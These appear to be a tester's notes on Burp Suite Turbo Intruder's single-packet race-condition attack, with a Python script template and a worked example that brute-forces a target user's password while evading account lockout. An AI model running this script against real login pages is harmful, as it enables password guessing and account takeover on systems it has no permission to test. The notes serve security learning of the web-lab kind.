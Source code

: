 {% code overflow="wrap" fullWidth="true" %}
```sh
 To use the single-packet attack in Turbo Intruder:
    Ensure that the target supports HTTP/2. The single-packet attack is incompatible with HTTP/1.
    Set the engine=Engine.BURP2 and concurrentConnections=1 configuration options for the request engine.
    When queueing your requests, group them by assigning them to a named gate -> gate argument for the engine.queue() method.
    To send all of the requests in a given group, open the respective gate with the engine.openGate() method.
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
For more details, see the race-single-packet-attack.py template provided in Turbo Intruder default examples directory.         

# EXAMPLE: Bypassing rate limits via race conditions (having a target user and a bunch of passwords to bf login)
- Try incorrect logins. When we fail, we see "Invalid user or password". After 3+ attempts, locked account.
- Send login request to Repeater > Get 20 of them > Group
- Send requests in parallel and find all of those show "Invalid user or password" instead of locked account.
- The previous result meant if we try different passwords quickly enough, we can make it with no account lock.
- From login request, select password and then Extensions > Turbo Intruder
- Change username to our target user. Note password value became %s and select single-packet-attack.py script
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    

    for word in wordlists.clipboard: # loop through all passwords (we copy them to our clipboard first)
        engine.queue(target.req, word, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
...
- Run the attack and check status code to find a different one.
# RESOURCES
https://www.intigriti.com/researchers/blog/hacking-tools/hacker-tools-turbo-intruder
https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack
```
{% endcode %}
